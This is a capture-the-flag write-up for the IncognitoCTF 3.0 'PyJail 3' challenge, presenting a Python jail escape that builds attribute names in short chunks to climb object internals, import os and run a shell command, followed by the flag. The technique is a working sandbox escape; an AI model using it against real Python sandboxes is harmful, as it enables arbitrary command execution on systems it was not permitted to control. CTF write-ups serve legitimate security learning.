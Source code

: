 # IncognitoCTF 3.0 - PyJail 3

Description of the challenge: `Let's see if you can escape this, nc 142.93.209.130 9843`

Same substitution problem, but we have also another problem: we are limited to input string of 10 character max.

It's a little bit annoying, but I split the exploit in several parts:

Final chain: 
`
g=getattr
f=flag
a='_._'
a+='cla'
a+='ss'
a+='_._'
x=g(f,a)
a='_._'
a+='bas'
a+='e'
a+='_._'
x=g(x,a)
a='_._'
a+='sub'
a+='cla'
a+='sse'
a+='s'
a+='_._'
x=g(x,a)
x=x()[196]
x=x()
a='_mo'
a+='dul'
a+='e'
x=g(x,a)
a='_._'
a+='bui'
a+='lti'
a+='ns'
a+='_._'
x=g(x,a)
a='_._'
a+='imp'
a+='ort'
a+='_._'
x=x[a]
x=x('os')
a='sys'
a+='tem'
x=g(x,a)
a='cat'
a+=' ja'
a+='il3'
x(a)
`

Flag: `ictf{C0ngr4t3_y0u_D1d_3m_4ll_457504214}`
